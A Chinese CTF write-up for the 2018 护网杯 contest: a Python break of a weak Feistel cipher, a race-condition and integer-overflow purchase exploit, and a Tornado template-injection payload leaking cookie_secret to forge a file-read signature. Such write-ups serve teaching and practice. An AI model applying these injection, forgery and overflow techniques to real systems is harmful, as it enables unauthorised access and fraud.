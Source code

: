 ```yaml
---
t oc: true
comments: true
title: 护网杯解题记录
category: writeup
date: 2018-10-14 00:17:37
---
```


![1539436751699](1539436751699.png)
# FEZ

```python
import os
def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
def f(x,k):
    return xor(xor(x,k),7)
def round(M,K):
    L=M[0:27]
    R=M[27:54]
    new_l=R
    new_r=xor(xor(R,L),K)
    return new_l+new_r
def fez(m,K):
    for i in K:
        m=round(m,i)
    return m

K=[]
for i in range(7):
    K.append(os.urandom(27))
m=open("flag","rb").read()
assert len(m)<54
m+=os.urandom(54-len(m))

test=os.urandom(54)
print test.encode("hex")
print fez(test,K).encode("hex")
print fez(m,K).encode("hex")
```

假设最后一轮结束后高低字节分别为l,r，可逐轮逆推出上一轮的值，从而得到明文和密文的关系。由已知的一组test明文密文对，可得到flag的明文。

| round | left                         | right                 |
| ----- | ---------------------------- | --------------------- |
| 0     | l^r^k[0]^k[1]^k[3]^k[4]^k[6] | l^k[1]^k[2]^k[4]^k[5] |
| 1     | l^k[1]^k[2]^k[4]^k[5]        | r^k[2]^k[3]^k[5]^k[6] |
| 2     | r^k[2]^k[3]^k[5]^k[6]        | l^r*k[3]^k[4]^k[6]    |
| 3     | l^r*k[3]^k[4]^k[6]           | l^k[4]^k[5]           |
| 4     | l^k[4]^k[5]                  | r^k[5]^k[6]           |
| 5     | r^k[5]^k[6]                  | r^l^k[6]              |
| 6     | r^l^k[6]                     | l                     |
| 7     | l                            | r                     |

```python
# -*- coding: utf-8 -*-
# __author__ = findneo

def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
all_xor = lambda x:reduce(xor,x)
test_plain="c8b84d08e5a8e60a49578f387fff5a90e9e7c181734bf05be4f5403c9ea24a0b8741a329991637e11fa69019cd3b01d7c95b65f5abd5"
test_cipher="5c3660c27cb9b3785a5ce06022e88bc831017e882d39475ea85d919ad9e5ac498f86c553216cab1f8f7468353d46ba8971efa9ca8c81"
flag_cipher="519ab6fc0e435da00516b844f8fe664bfe9445992f478dc650701739a11ffda5bbeb643159d7e8cd03a2104c798a1ca734b905ee6c76"

p=test_plain.decode("hex")
c=test_cipher.decode("hex")
f=flag_cipher.decode("hex")

l,r=c[0:27],c[27:54]
pl,pr=p[0:27],p[27:54]
fl,fr=f[0:27],f[27:54]
fcl=all_xor([l,r,pl,fl,fr])
fcr=all_xor([l,pr,fl])
flag=fcl+fcr
print flag
#flag{festel_weak_666_plo88112tty}�{v�N;	K�X
```

# LTSHOP

使用burp的intruder竞争买大辣条，得到超过五个大辣条。

![1539428933786](1539428933786.png)

然后买 `2**64/5+1` 个辣条王，使得需要付的大辣条多到uint装不下，向上溢出为负数，我们就买得起很多的辣条王了，实现一夜暴富。

![1539429086591](1539429086591.png)

然后flag就随便买了。

![1539429113491](1539429113491.png)

![1539437436657](1539437436657.png)

# easy_tornado

有三个提示：

```html
http://49.4.78.9:31465/file?filename=flag.txt&signature=95660d430a8ad05fc7337d12e6a08b1a
render()
md5(cookie_secret + md5(filename))
/fllllllllllag
```

报错页面存在SSTI。

```html
访问 `http://49.4.78.9:31465/error?msg={{handler.settings}}`得到配置信息。
Whoops, looks like somethings went wrong . 
{'login_url': '/login', 'template_path': 'templates', 'xsrf_cookies': True, 'cookie_secret': 'pGD*~9Y]N?>5zBvS_3768U+O}<#^k@oM$grqZQ4!yK1ucVnijmRJlFwI%hP(0exE', 'debug': False, 'file_path': '/www/static/files', 'static_path': 'static'}
```

得到cookie_secret，即可构造签名读取flag。

```bash
abc@xyz:~$ curl "http://49.4.78.9:31465/file?filename=/fllllllllllag&signature=8f270fa794962fa2ec4e63e6b03a830b" -s | grep flag
flag{59a95928373bfa789e06635d2d5e9459}
```

参考：https://www.cnblogs.com/bwangel23/p/4858870.html 

# 更多题解

- [护网杯2018线上赛 Writeup by Whitzard](https://xz.aliyun.com/t/2893) 
- [2018护网杯线上赛 Writeup by 天枢](https://xz.aliyun.com/t/2897) 
- [2018护网杯线上赛题解by Lilac](https://xz.aliyun.com/t/2892) 
- [护网杯-easy laravel-Writeup](http://www.venenof.com/index.php/archives/565/) 
- [2018护网杯-web-writeup](http://skysec.top/2018/10/13/2018%E6%8A%A4%E7%BD%91%E6%9D%AF-web-writeup/) 